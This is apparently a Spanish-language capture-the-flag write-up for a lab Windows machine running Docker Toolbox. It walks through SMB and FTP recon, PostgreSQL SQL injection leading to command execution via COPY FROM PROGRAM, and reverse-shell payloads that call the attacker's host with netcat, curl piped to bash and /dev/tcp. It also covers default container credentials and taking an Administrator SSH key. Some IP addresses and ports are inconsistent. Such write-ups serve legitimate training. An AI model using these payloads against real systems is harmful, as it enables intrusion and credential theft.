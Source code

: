 ## Summary

Tags: #SMB #FTP #BurpSuite #HTTPS #PostgreSQL #Netcat #Docker #Contenedor #Windows #RCE #ReverShell #DockerToolbox #Id_RSA #Nmap 

- IP -> 10.10.11.130
- Ports -> TCP (21,22,135139,443,445,5985), UDP (idk)
- OS ->  Windows
- Services & Applications
    - 21 -> FTP
    - 22 -> SSH
    - 135 -> RPC
    - 443 -> HTTPS
    - 445 -> SMB
    - 5985 -> WinRM


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon

```bash
❯ smbclient -L ❮IP❯                   # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
❯ smbclient -L ❮IP❯ -N                # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
```

```bash
❯ smbmap -H ❮IP❯                      # Herramienta elternativa para ver si nos reporta algo mas y nos reporta los permisos (WRITE, READ)
❯ smbmap -H ❮IP❯ -u 'null'            # Herramienta elternativa para ver si nos reporta algo mas haciendo uso de un null sesion (sin credencial alguna)
```

```bash
❯ crackmapexec smb ❮IP❯               # Para listar recursos compartidos de Windows
```

Anonimous esta permitido
```bash
❯ ftp ❮IP❯                               # Si el servidor nos lo permite nos podemos conectar como Anonymous sin colocar password.
```
Encontramos un archivo que se llama 'Docker-Toolbox'

```bash
❯ openssl s_client -connect ❮IP❯:443     # Para conectarnos al openssl e inspeccionar el certificado del puerto 443
```
Encontramos un nuevo dominio 'admin.megalogistic.com'
Lo agregamos al **/etc/hosts** y despues entramos a la web para ver que hay y encontramos un panel de autenticacion que la momento de hacerle una inyeccion SQL este nos devuelve un error y nos pone que hay un **PostgreSQL**.

Ahora nos disponemos a abrir BurpSuite e iunterceptaremos las peticiones de la pagina 
* Nos damos cuenta que la data esta viajando por url-encode, por lo que hacemos **Ctrl + Shift + u** para url-decodear
* Buscamos en Google 'HackTricks: [Hacktricks-PostgreSQL](https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection)' SQLI para **PostgreSQL** y encontramos lo siguiente 
```bash
❯ username=1' ; select pg_sleep(5);-- - $password=1'    # La web debe de tardar 5 seg en responder 
```

Ahora como podemos injectar comandos, podemos tener un **RCE (Remote Code Execution**) 
* [HackTricks-PostgreSQL-RCE](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce-to-program)
```bash
❯ DROP TABLE IF EXISTS cmd_exec;                    # Elimina la tabla si es que existe
❯ CREATE TABLE cmd_exec(cmd_output text);           # Crea una tabla 
❯ COPY cmd_exec FROM PROGRAM 'id';                  # Por medio de esa tabla podemos inyectar un comando 
❯ SELECT * FROM cmd_exec;
```

Podemos colocar un **+** para los espacios o seleccionar y poner **Ctrl + u** y url-encodeamos, para poder colocarlos en BurpSuite y este no nos arrije un error
```bash
❯ CREATE+TABLE+cmd_exec(cmd_output+text);--+-                              # Creamos una tabla 
❯ COPY+cmd_exec+FROM+PROGRAM+'\\10.10.14.2\smbFolder\nc.exe+-e+cmd+10.10.14.2+443';--+-          # Por medio de esa tabla podemos inyectar un comando, este nos ayudara a conectarnos a un recurso compartido
	# IP = IP de atacante 
	# smbFolder = Nombre del folder del recurso compartido
	# nc.exe = Netcat para Windows
	# cmd = Entablar una ReverShell con la maquina de atacante
	# 443 = Puerto de la ReverShell de la maquina de atacante 
```

Buscamos Netcat en nuestra maquina de atacante y lo colocamos en el folder que vamos a compartir, este Netcat es para Windows
```bash 
❯ locate nc.exe
```

Para compartir los recursos con la maquina victima 
```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support # Creamos un servicio con SMB 

	# smbFolder = Nos creara un servicio compartido llamado 'smbFolder'
	# pwd = Sincronizado con la ruta absoluta actual 
	# smb2support = En Windows 10 le damos soporte a la version 2
```

Nos ponemos en modo escucha para recibir la ReverShell de la maquina victima 
```bash
❯ rlwrap nc -nlvp 443

	# nc = Netcat 
	# n = No DNS
	# l = Modo escucha, conexiones entrantes
	# v = verbose
	# p = numero local de puerto en esucha

```


Miramos que no se conecta, enotnces lo intentamos como si fuera una maquina Linux
```bash
❯ COPY+cmd_exec+FROM+PROGRAM+'curl+10.10.14.2/Shell|bash';--+-          # Por medio de esa tabla podemos inyectar un comando, este nos ayudara a que la maquina victima busque el archivo Shell que contiene la ReverShell en nuestra maquina de atacante y lo procese con bash 
```

Creamos el archivo de la ReverShell
```bash
nvim Shell
	#!/bin/bash
	bash -i >& /dev/tcp/10.10.14.13/443 0>&1
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para compartir el recurso 
```

```bash
❯ nc -nlvp 443                              # nos ponemos en escucha para recibir la ReverShell
```

## User

Una vez dentro, nos damos cuenta que estamos denmtro de un contenedor '127.17.0.2'
```bash
❯ hostname -I                                # Nos muestra solo la direccion IP
```
Hacemos tratamiento de la pseudo-consola

* Buscamos en Google credenciales tipicas de [docker-toolbox](https://stackoverflow.com/questions/32646952/docker-machine-boot2docker-root-password) y nos muestra estas: **user:docker, passwd:tcuser**
* Buscaremos que puertos estan abiertos en la maquina victima 

```bash
❯ route -n                                   # Para mirar las routing tables y encontramos la 127.17.0.1
```

Por si el comando **ping** no esta disponible
```bash
❯ (echo ‘’ > /dev/tcp/172.16.0.1/22) 2>/dev/null && echo “[+] Puerto abierto” || echo “[+] Puerto cerrado”
```
Nos damos cuenta que el puero 22 del contenedor esta OPEN, por lo que procedemos a conectarnos con SSH 

```bash
❯  ssh docker@127.17.0.1                                    # Para conectarnos por ssh en el puerto default 22 del contenedor docker
```
Entramos a la inteface y nos damos cuenta que somos el usuario 'docker' 

```bash
❯ whoami                                           # Miramos el nombre del usuario
```

```bash
❯ sudo -l                                          # Ver que permisos tenemos en el sudoers (l=ele)

	# (ALL : ALL) ALL
	# (root) NOPASSWD: /usr/bin/find -> Puede ejecutar un comando sin necesidad de password
```
Miramo que nos podemos convertir en root en el contenedor y eso nos ayudara a buscar la flag user.txt

Buscaremos la flag dentro del usaurio docker, pero o hay nada. Por lo que la buscaremos en la maquina de manera general.
```bash
❯ find  / -name file.txt 2>/dev/null               # Para buscar un archivo en el sistema desde la raiz
```

Ahora nos dirijimos a la raiz '/' y encontramos un dir **'C > Users > Administrator'**, esta es la estructura de Windows. 
```bash
❯ ls -la                          # Podemos observar todos los archivos del dir inclyendo los ocultos 
```
Encontramos un dir **.ssh**. Esto quiere decir que puede que exista un **id_rsa**, copiamos su contenido en nuestra maquina de atacante en un archivo llamada 'id_rsa' y le damos el privilegio 600

 ```bash
❯ chmod 600 id_rsa                              # Para darle un permiso 600 a la id_rsa      
```

```bash
❯ ssh -i id_rsa Administrator@10.10.10.236      # Nos conectamos por ssh teniendo un id_rsa con privilegio 600
```
Nos podemos conectar desde nuestra maquina de atacante ya que en el escaneo de nmap, observamos que el puerto 22 estaba OPEN

## Root

Somo el usuario 'Administrator'  en Windows  
```bash
❯ whoami                                           # Miramos el nombre del usuario
```

```bash
❯ ipconfig                                         # Nos muestra las interfaces y las direcciones IP de Windows
```
Miramos que estemos dentro de la IP de la maquina victima

Nos ponemos a buscar la flag root.txt